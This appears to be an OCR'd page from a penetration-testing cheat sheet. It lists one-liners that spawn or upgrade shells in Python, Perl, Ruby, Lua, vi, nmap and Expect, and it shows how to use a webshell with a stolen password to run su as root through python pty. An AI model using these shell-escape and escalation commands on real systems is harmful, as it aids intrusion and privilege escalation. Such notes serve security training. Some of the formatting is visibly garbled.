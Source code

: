                - python -c 'import os; os.system("/bin/bash")'
### sh
               - /bin/sh -i
### Perl
               perl -e 'exec "/bin/sh";'
or
- perl: exec "/bin/sh";
### Ruby
            - .. code-block :: bash
            - ruby: exec "/bin/sh"
### Lua
            - .. code-block :: bash
            - lua: os.execute('/bin/sh')
### IRB
            - ^^^
            - (From within IRB)
            - .. code-block :: bash
            - exec "/bin/sh"
            -
### VI
            - (From within vi)
               - :!bash
            - (From within vi)
               :set shell=/bin/bash:shell
            - Also, if we execute
               vi ;/bin/bash
            - Once, we exit vi, we would get shell. Helpful in scenarios where the user is asked to input which file to open.
### Nmap
            - (From within nmap)
               - !sh
### Expect
            - Using “Expect” To Get A TTY
               $ cat sh.exp
```
#!/usr/bin/expect
```
 Spawn a shell, then allow the user to interact with it.
 The new shell will have a good enough TTY to run tools like ssh, su and login
spawn sh
interact
###  Stealthy SU in (Web) Shells
            - Let's say we have a webshell on the server ( probably, we would be logged in as a apache user), however, if we have credentials of another user, and we want to login we need a tty shell. We can use a shell terminal trick that relies on Python to turn our non-terminal shell into a terminal shell.
            - **Example**
            - Webshell like
               - http://IP/shell.php?cmd=id
            - If we try
               - echo password | su -c whoami
            - Probably will get
               - standard in must be a tty
            - The su command would work from a terminal, however, would not take in raw stuff via the shell's Standard Input.
            - We can use a shell terminal trick that relies on Python to turn our non-terminal shell into a terminal shell
               (sleep 1; echo password) | python -c "import pty; pty.spawn(['/bin/su','-c','whoami']);"
                root